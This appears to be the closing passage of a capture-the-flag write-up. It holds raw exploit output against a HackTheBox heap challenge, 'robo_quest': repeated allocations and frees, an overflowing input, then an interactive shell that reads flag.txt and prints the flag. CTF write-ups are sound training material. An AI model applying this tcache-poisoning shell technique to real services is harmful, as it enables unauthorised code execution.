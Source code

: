 ```
b"\n> \x1b[0m\n[*] Question's id:"
b' [*] New question:'
b' \x1b[1;31m\n1. Create\n2. Show\n3. Modify\n4. Remove'
b"\n> \x1b[0m\n[*] Question's size:"
b' [*] Insert question here:'
b' \x1b[1;36m\n[+] Question has been created!\n\x1b[0m\n\x1b[1;31m\n1. Create\n2. Show\n3. Modify\n4. Remove'
b"\n> \x1b[0m\n[*] Question's size:"
b' [*] Insert question here:'
b' \x1b[1;36m\n[+] Question has been created!\n\x1b[0m\n\x1b[1;31m\n1. Create\n2. Show\n3. Modify\n4. Remove'
b"\n> \x1b[0m\n[*] Question's size:"
b' [*] Insert question here:'
b' \x1b[1;36m\n[+] Question has been created!\n\x1b[0m\n\x1b[1;31m\n1. Create\n2. Show\n3. Modify\n4. Remove'
b"\n> \x1b[0m\n[*] Question's size:"
b' [*] Insert question here:'
b' \x1b[1;36m\n[+] Question has been created!\n\x1b[0m\n\x1b[1;31m\n1. Create\n2. Show\n3. Modify\n4. Remove'
b"\n> \x1b[0m\n[*] Question's size:"
b' [*] Insert question here:'
b' \x1b[1;36m\n[+] Question has been created!\n\x1b[0m\n\x1b[1;31m\n1. Create\n2. Show\n3. Modify\n4. Remove'
b"\n> \x1b[0m\n[*] Question's id:"
b' [*] Question [3]: 11111111111111111111111111111111111111111111111111111111A\n\x1b[1;31m\n1. Create\n2. Show\n3. Modify\n4. Remove'
b"\n> \x1b[0m\n[*] Question's id:"
b' [*] New question:'
b' \x1b[1;31m\n1. Create\n2. Show\n3. Modify\n4. Remove'
b"\n> \x1b[0m\n[*] Question's id:"
b' [+] Question [4] has been removed.\n\x1b[1;31m\n1. Create\n2. Show\n3. Modify\n4. Remove'
b"\n> \x1b[0m\n[*] Question's id:"
b' [+] Question [6] has been removed.\n\x1b[1;31m\n1. Create\n2. Show\n3. Modify\n4. Remove'
b"\n> \x1b[0m\n[*] Question's id:"
b' [+] Question [5] has been removed.\n\x1b[1;31m\n1. Create\n2. Show\n3. Modify\n4. Remove'
b"\n> \x1b[0m\n[*] Question's size:"
b' [*] Insert question here:'
b' \x1b[1;36m\n[+] Question has been created!\n\x1b[0m\n\x1b[1;31m\n1. Create\n2. Show\n3. Modify\n4. Remove'
b"\n> \x1b[0m\n[*] Question's size:"
b' [*] Insert question here:'
b' \x1b[1;36m\n[+] Question has been created!\n\x1b[0m\n\x1b[1;31m\n1. Create\n2. Show\n3. Modify\n4. Remove'
b"\n> \x1b[0m\n[*] Question's size:"
b' [*] Insert question here:'
b' \x1b[1;36m\n[+] Question has been created!\n\x1b[0m\n\x1b[1;31m\n1. Create\n2. Show\n3. Modify\n4. Remove'
b"\n> \x1b[0m\n[*] Question's id:"
[*] Switching to interactive mode
 $ ls
flag.txt  robo_quest
$ cat flag.txt
HTB{r0b0fl0w_tc4ch3_p01s0n}    
```
Thanks for reading!
